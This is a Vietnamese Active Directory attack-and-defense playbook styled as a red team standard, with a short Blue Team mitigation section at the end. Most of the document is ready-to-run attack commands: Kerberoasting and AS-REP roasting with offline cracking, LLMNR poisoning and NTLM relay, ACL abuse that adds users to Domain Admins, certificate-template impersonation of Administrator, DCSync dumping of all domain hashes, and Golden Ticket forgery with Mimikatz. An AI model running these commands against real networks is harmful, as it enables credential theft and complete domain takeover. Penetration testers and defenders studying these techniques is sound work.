

# CẨM NANG TẤC CHIẾN TẤN CÔNG VÀ PHÒNG THỦ ACTIVE DIRECTORY
## ENTERPRISE ACTIVE DIRECTORY EXPLOITATION & DEFENSE PLAYBOOK
**Mã hiệu:** `SEC-PLAYBOOK-AD-2026`  
**Phiên bản:** `v3.0 - Red Team Tactical Standard`  
**Đơn vị biên soạn:** Đội ngũ Chuyên gia Tác chiến An toàn Thông tin (Red Team Operations)  
**Phạm vi:** Toàn bộ chuỗi tấn công và phòng ngự trên hạ tầng Microsoft Active Directory Domain Services (AD DS).

---

## I. TỔNG QUAN KIẾN TRÚC VÀ CƠ CHẾ XÁC THỰC ACTIVE DIRECTORY

Active Directory (AD) là xương sống quản trị danh tính của hơn 90% doanh nghiệp toàn cầu. Kiểm soát được Domain Controller (DC) đồng nghĩa với việc nắm giữ chìa khóa của toàn bộ máy chủ, dữ liệu và tài khoản nhân viên.



### Hai Giao thức Xác thực Cốt lõi:
1. **Kerberos (Cổng TCP/UDP 88):**
   - **AS-REQ (Authentication Service Request):** Client gửi yêu cầu kèm nhãn thời gian mã hóa bằng hash mật khẩu của Client để xin vé TGT.
   - **AS-REP (Authentication Service Response):** KDC (Key Distribution Center) trả về vé TGT (Ticket Granting Ticket) được mã hóa bằng khóa bí mật của tài khoản `krbtgt`.
   - **TGS-REQ (Ticket Granting Service Request):** Client gửi TGT xin vé truy cập một dịch vụ cụ thể (SPN).
   - **TGS-REP (Ticket Granting Service Response):** KDC cấp vé TGS mã hóa bằng hash mật khẩu của tài khoản chạy dịch vụ đó.
   - **AP-REQ (Application Request):** Client gửi TGS cho máy chủ ứng dụng để xác thực.
2. **NTLM (NT LAN Manager - Cổng TCP 445/139):**
   - Hoạt động theo cơ chế Thử thách - Trả lời (Challenge - Response).
   - Thường bị khai thác thông qua tấn công nghe lén (LLMNR/NBT-NS Poisoning) và Chuyển tiếp xác thực (NTLM Relay).

---

## II. CHI TIẾT CÁC KỸ THUẬT TẤN CÔNG ACTIVE DIRECTORY

### 1. Thu thập & Lập bản đồ Domain với BloodHound
BloodHound sử dụng lý thuyết đồ thị (Graph Theory) để hiển thị trực quan các mối quan hệ ẩn và tìm ra đường đi ngắn nhất đến Domain Admin.
```bash
# 1. Thu thập dữ liệu từ máy nạn nhân bằng SharpHound (PowerShell hoặc Binary)
Invoke-BloodHound -CollectionMethod All -ZipFileName ad_data.zip

# 2. Hoặc thu thập từ xa qua mạng từ máy Kali Linux bằng bloodhound-python
bloodhound-python -u 'johndoe' -p 'Password123' -d corp.local -dc dc01.corp.local -c All -ns 10.10.10.1

# 3. Mở BloodHound GUI và truy vấn các đường dẫn nguy hiểm:
# - "Find Shortest Paths to Domain Admins"
# - "Find Principals with DCSync Rights"
# - "Shortest Path from Owned Principals"
```

---

### 2. Tấn công AS-REP Roasting
- **Điều kiện:** Tài khoản người dùng có bật thuộc tính `DONT_REQ_PREAUTH` (Không yêu cầu xác thực trước Kerberos).
- **Cơ chế:** Kẻ tấn công gửi AS-REQ không kèm chứng thực, KDC vẫn trả về bản tin AS-REP chứa dữ liệu mã hóa bằng hash mật khẩu của tài khoản đó. Kẻ tấn công mang bản tin này đi bẻ khóa offline.
```bash
# Sử dụng Impacket GetNPUsers.py để quét và lấy vé AS-REP
impacket-GetNPUsers corp.local/ -usersfile users.txt -dc-ip 10.10.10.1 -format hashcat -outputfile asrep_hashes.txt

# Bẻ khóa bằng Hashcat với mode 18200 (Kerberos 5 AS-REP etype 23)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

---

### 3. Tấn công Kerberoasting
- **Điều kiện:** Tài khoản người dùng được gán Tên Dịch vụ (Service Principal Name - SPN), thường là các tài khoản quản trị dịch vụ (SQL Service, IIS Service).
- **Cơ chế:** Bất kỳ tài khoản người dùng hợp lệ nào trong Domain cũng có quyền xin vé TGS cho một SPN hợp lệ. KDC cấp vé TGS mã hóa bằng NTLM hash của tài khoản dịch vụ đó.
```bash
# 1. Quét tìm tài khoản có SPN và yêu cầu vé TGS bằng Impacket
impacket-GetUserSPNs corp.local/johndoe:'Password123' -dc-ip 10.10.10.1 -request -outputfile tgs_hashes.txt

# 2. Hoặc sử dụng Rubeus trực tiếp trong bộ nhớ Windows
.\Rubeus.exe kerberoast /outfile:tgs_hashes.txt

# 3. Bẻ khóa vé TGS bằng Hashcat với mode 13100 (Kerberos 5 TGS-REP etype 23)
hashcat -m 13100 tgs_hashes.txt /usr/share/wordlists/rockyou.txt
```

---

### 4. Tấn công LLMNR / NBT-NS Poisoning & NTLM Relay
- **Cơ chế:** Khi máy tính Windows không phân giải được tên máy qua DNS, nó phát bản tin quảng bá LLMNR/NBT-NS trên mạng cục bộ. Responder giả mạo là máy cần tìm, ép nạn nhân gửi NTLMv2 hash hoặc chuyển tiếp (Relay) phiên xác thực sang máy chủ khác không bật ký SMB (SMB Signing Disabled).
```bash
# 1. Bắt NTLMv2 Hash bằng Responder
sudo responder -I eth0 -dwv

# 2. Hoặc cấu hình NTLM Relay chiếm quyền thực thi lệnh (SMB Relay)
# Tắt SMB và HTTP trong file /etc/responder/Responder.conf
# Chạy ntlmrelayx lắng nghe và chuyển tiếp phiên xác thực đến máy chủ mục tiêu
impacket-ntlmrelayx -tf targets.txt -smb2support -socks
```

---

### 5. Khai thác Phân quyền Danh sách Kiểm soát Truy cập (ACL / ACE Abuse)
Khi phân tích BloodHound, phát hiện tài khoản sở hữu các quyền đặc biệt trên Object khác:
- **`GenericAll` / `GenericWrite`:** Toàn quyền kiểm soát Object. Có thể đổi mật khẩu của tài khoản đó hoặc thêm tài khoản của mình vào nhóm quản trị.
  ```bash
  # Đổi mật khẩu tài khoản mục tiêu khi có quyền GenericAll
  net user target_user NewPassword123! /domain
  ```
- **`WriteDacl`:** Quyền thay đổi bảng phân quyền. Cấp quyền `GenericAll` cho chính mình.
- **`AddMember`:** Thêm user vào nhóm Domain Admins:
  ```bash
  net group "Domain Admins" myuser /add /domain
  ```

---

### 6. Khai thác Hạ tầng Chứng thực Active Directory (AD CS Abuse)
Active Directory Certificate Services (AD CS) là bề mặt tấn công cực lớn trong môi trường doanh nghiệp hiện đại (nghiên cứu của SpecterOps: Certified Pre-Owned):
- **ESC1 (SAN Misconfiguration):** Certificate Template cho phép Client tự định danh Subject Alternative Name (SAN) và có quyền Client Authentication (`EnrolleeSuppliesSubject = True`).
  ```bash
  # Dùng Certipy yêu cầu chứng chỉ mạo danh Domain Administrator
  certipy req -u 'johndoe@corp.local' -p 'Password123' -target dc01.corp.local -ca corp-CA -template VulnerableTemplate -upn Administrator@corp.local
  
  # Dùng file .pfx vừa nhận được để xác thực Kerberos và lấy NT hash của Administrator
  certipy auth -pfx administrator.pfx -dc-ip 10.10.10.1
  ```

---

### 7. Tấn công Chiếm trọn Miền qua DCSync
- **Điều kiện:** Sở hữu tài khoản có quyền Replicate Directory Changes (mặc định là Domain Admins, Enterprise Admins, hoặc Domain Controllers).
- **Cơ chế:** Kẻ tấn công sử dụng API DRSGetNCChanges của giao thức Directory Replication Service (MS-DRSR), đóng giả một Domain Controller hợp lệ đang xin đồng bộ dữ liệu người dùng từ Domain Controller chính.
```bash
# Trích xuất toàn bộ NTLM hash của Domain từ xa qua mạng mà không cần truy cập DC
impacket-secretsdump corp.local/admin:'Pass123'@10.10.10.1 -just-dc-ntlm -outputfile ntds_hashes

# Trích xuất riêng Hash của tài khoản krbtgt để chuẩn bị làm Golden Ticket
impacket-secretsdump corp.local/admin:'Pass123'@10.10.10.1 -just-dc-user krbtgt
```

---

### 8. Duy trì Quyền lực Tối thượng: Golden Ticket & Silver Ticket
- **Golden Ticket:** Là vé TGT do kẻ tấn công tự sinh ra bằng khóa bí mật của `krbtgt` và Domain SID. Kẻ tấn công có thể giả mạo thành bất kỳ người dùng nào (kể cả Administrator) và có giá trị trong 10 năm.
```bash
# Tạo và nạp Golden Ticket bằng Mimikatz
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:b200b34d70b551e18bf9e0234d6ee178 /id:500 /ptt

# Kiểm tra vé trong bộ nhớ
klist

# Truy cập tài nguyên Domain Controller
dir \\dc01.corp.local\c$
```

---

## III. CHIẾN LƯỢC PHÒNG THỦ VÀ PHÁT HIỆN DÀNH CHO BLUE TEAM

1. **Vô hiệu hóa LLMNR & NetBIOS:**
   - Cấu hình qua Group Policy: `Computer Configuration -> Administrative Templates -> Network -> DNS Client -> Turn off multicast name resolution = Enabled`.
2. **Kích hoạt Bắt buộc Ký số SMB (Enforce SMB Signing):**
   - Ngăn chặn triệt để tấn công NTLM Relay.
3. **Bảo vệ Tài khoản Dịch vụ SPN:**
   - Chuyển sang sử dụng **Group Managed Service Accounts (gMSA)** với mật khẩu tự động 128 ký tự do AD quản lý, vô hiệu hóa khả năng bẻ khóa Kerberoasting.
4. **Phát hiện DCSync:**
   - Giám sát Windows Event ID `4662` (An operation was performed on an object) với access mask liên quan đến quyền replication (`1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` hoặc `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`) được gọi từ các máy không phải Domain Controller.
5. **Quy trình Đổi Mật khẩu `krbtgt` Định kỳ:**
   - Đổi mật khẩu tài khoản `krbtgt` 2 lần liên tiếp (cách nhau 24 giờ) để vô hiệu hóa hoàn toàn các vé Golden Ticket đã bị rò rỉ.

---
*Playbook này cung cấp nền tảng vững chắc cho mọi hoạt động kiểm thử thâm nhập Active Directory trong khuôn khổ pháp luật và đạo đức nghề nghiệp.*
